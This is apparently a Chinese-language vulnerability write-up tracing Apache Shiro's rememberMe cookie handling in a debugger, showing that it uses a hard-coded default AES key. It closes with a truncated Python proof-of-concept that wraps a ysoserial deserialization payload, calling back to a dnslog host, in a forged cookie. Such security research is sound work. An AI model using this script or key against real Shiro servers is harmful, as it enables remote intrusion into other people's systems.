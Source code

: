 首先看登陆过程, 在`org.apache.shiro.mgt.AbstractRememberMeManager#onSuccessfulLogin`打下断点, 随后在浏览器中选中Remember Me选项进行登陆, 程序进入断点:

![image-20220122163548996](image-20220122163548996.png)

在`forgetIdentity`函数中, 会尝试获取request 和 response, 并移除之前的身份信息.

![image-20220122164355343](image-20220122164355343.png)

回到之前的函数, 进入第一个if分支, 进入`rememberIdentity`函数, `this.getIdentityToRemember`函数获取到身份信息, 然后调用`rememberIdentity`函数.

![image-20220122164841524](image-20220122164841524.png)

`rememberIdentity`函数中, 首先将`accountPrincipals`转换成bytes

![image-20220122165211999](image-20220122165211999.png)

转换的逻辑为先进行序列化然后再进行加密, 如下

![image-20220122165440695](image-20220122165440695.png)

加密的方式为AES加密

![image-20220122170022825](image-20220122170022825.png)

跟进密钥获取的函数

![image-20220122170008256](image-20220122170008256.png)

从最后一行可以看到,在对象初始化的时候, 自动设置密钥为默认密钥

![image-20220122165857201](image-20220122165857201.png)

返回到`rememberIdentity`函数, 跟进`rememberSerializedIdentity`, 这里主要是将加密结果经过base64之后存储进cookie中

![image-20220122172439145](image-20220122172439145.png)

### rememberMe解密过程

在``org.apache.shiro.mgt.DefaultSecurityManager#getRememberedIdentity` 打下断点, 使用脚本向本地服务器发送payload

```python
from Crypto.Cipher import AES
import traceback
import requests
import subprocess
import uuid
import base64

target = "http://localhost:8000/web_war/"
jar_file = './ysoserial.jar'
cipher_key = "kPH+bIxk5D2deZiIxcaaaA=="

popen = subprocess.Popen(['java','-jar',jar_file, "URLDNS", "http://ktclkl.dnslog.cn"],
                        stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
mode = AES.MODE_CBC
iv = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(cipher_key), mode, iv)
getget = popen.stdout.read()
file_body = pad(getget)
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))

try:
    print(base64_ciphertext.decode())
```